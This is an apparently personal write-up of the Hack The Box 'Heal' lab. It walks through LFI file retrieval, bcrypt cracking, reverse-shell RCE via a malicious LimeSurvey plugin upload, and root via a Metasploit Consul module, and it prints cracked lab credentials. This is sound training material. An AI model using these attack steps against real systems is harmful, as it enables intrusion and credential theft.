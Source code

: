 ```yaml
---
title: Heal Writeup
description: Writeup of "Heal" machine from Hackthebox
categories: [Writeups, Hackthebox]
tags: [Hackthebox]
image:
  path: /assets/blogimages/Writeups/Hackthebox/Heal/HealLOGO.png
  alt: Heal Writeup
---
```


## Enumeration

Let's start with nmap scan:

```nmap -Pn -A -p- 10.10.11.46 -v```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
|_  256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```
The results show two open ports:
- 22/tcp – SSH (OpenSSH 8.9p1)
- 80/tcp – HTTP (nginx 1.18.0)


HTTP redirects us to **heal.htb**, so we add it to /etc/hosts:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal1.png)

Upon visiting **heal.htb**, we’re met with a login page:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal2.png)

We register an account (requires **api.heal.htb** in /etc/hosts), and are redirected to a Resume Builder:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal4.png)
This form lets you generate and export resumes as PDFs.

Visiting **api.heal.htb** confirms the backend is Ruby on Rails.
![](/assets/blogimages/Writeups/Hackthebox/heal/heal5.png)


Exploring the app further, the Survey section redirects to **take-survey.heal.htb**, which runs LimeSurvey. 
![](/assets/blogimages/Writeups/Hackthebox/heal/heal6.png)

Tried the admin panel with default creds (admin:password)—no luck.

## Initial Foothold

 I returned to the Resume Builder feature and started exploring its functionality. While exporting a created resume to PDF, I intercepted the requests and noticed something interesting—a file download endpoint:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal7.png)

I tested for a Local File Inclusion (LFI) vulnerability, and it worked!
![](/assets/blogimages/Writeups/Hackthebox/heal/heal8.png)

Since the backend was running Ruby on Rails, I consulted the official [Rails configuration](https://guides.rubyonrails.org/configuring.html) guide to identify key configuration files.
Using the LFI, I fetched the database configuration file `/download?filename=../../config/database.yml`:<br>
![](/assets/blogimages/Writeups/Hackthebox/heal/heal9.png)

I then downloaded the database file directly using wget:
```
wget --header="Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo3fQ.bN47YVxPM1ZVqbw4J7oHZeDc3ixY3KO6yZpM5M3nfZE" "http://api.heal.htb/download?filename=../../storage/development.sqlite3" -O development.sqlite3
```



After running `strings development.sqlite3`, I found a bcrypt hash for the **ralph** user:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal10.png)
`$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG`

I used Hashcat to crack it:
`hashcat -m 3200 -a 0 ralphHASH.txt /usr/share/wordlists/rockyou.txt`
![](/assets/blogimages/Writeups/Hackthebox/heal/heal11.png)
`$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369`



The cracked password was:
`ralph:147258369`
I then logged in to take-survey.heal.htb using those credentials.
![](/assets/blogimages/Writeups/Hackthebox/heal/heal12.png)
Then just scrolling down it reveals that LimeSurvey 6.6.4 version is used.

While exploring the interface, I noticed it was running LimeSurvey version 6.6.4.

I searched for a known exploit using the query limesurvey 6.6.4 exploit and found this [blog post on CVE-2021-44967](https://ine.com/blog/cve-2021-44967-limesurvey-rce). Although the exploit was originally for older versions, I decided to try it anyway.

Using the resource I did the following steps:<br>
**1.** Downloaded files from [github](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE)<br>
**2.** Modified php-rev.php to include my tun0 IP and desired port:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal13.png)

**3.** In config.xml I added version 6.0 compatibilty since otherwise it would give `The plugin is not compatible with your version of LimeSurvey.` error.

```
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>Y1LD1R1M</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>Y1LD1R1M</author>
        <authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
        <supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
        <version>6.0</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
                <![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
        <version>5.0</version>
        <version>6.0</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```

**4.** Then zipped it all up: `zip -r Y1LD1R1M.zip config.xml php-rev.php`<br>
**5.** In the LimeSurvey dashboard, I navigated to: Configuration → Plugins → Upload & Install, selected the crafted ZIP file, and clicked Install → Install. After installation, I activated the plugin:<br>

![](/assets/blogimages/Writeups/Hackthebox/heal/heal14.png)

**6.** With the plugin active, I prepared a reverse shell listener on my attacking machine: `nc -lvnp 1234`. 
Then, I triggered the payload by accessing: **take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php** and got a shell:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal15.png)
Used `python3 -c 'import pty; pty.spawn("/bin/bash")'` for a upgraded shell.

While exploring the system, I found credentials in **/var/www/limesurvey/application/config/config.php**:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal16.png)
I tried logging in via SSH with those creds and successfully accessed the machine as user **ron**:
 `ron:AdmiDi0_pA$$w0rd`.

## Privilege Escalation

While exploring the system, I noticed a non-ordinary process running as root by inspecting the process list with `ps aux`:
```
root     1737  0.0  0.1  /usr/local/bin/consul agent -server -ui -advertise=127.0.0.1 -bind=127.0.0.1 -data-dir=/var/lib/consul -node=consul-01 -config-dir=/etc/consul.d
```
This indicated that HashiCorp Consul was running locally.
I checked the Consul version via the binary:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal17.png)

After researching potential exploits, I came across a known [Metasploit module](https://www.rapid7.com/db/modules/exploit/multi/misc/consul_service_exec/)

To exploit it, I followed these steps:

1. Port Forward Consul's Web UI (Port 8500) to my local machine:
```
ssh -L 8500:localhost:8500 ron@10.10.11.46
```

2. Launch Metasploit and configure the exploit:
```
msfconsole -q
use exploit/multi/misc/consul_service_exec
set RHOSTS localhost
set LHOST tun0
run
sessions 2
```
After a few moments, I received a session as root:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal18.png)

And just like that — I had root access on the box!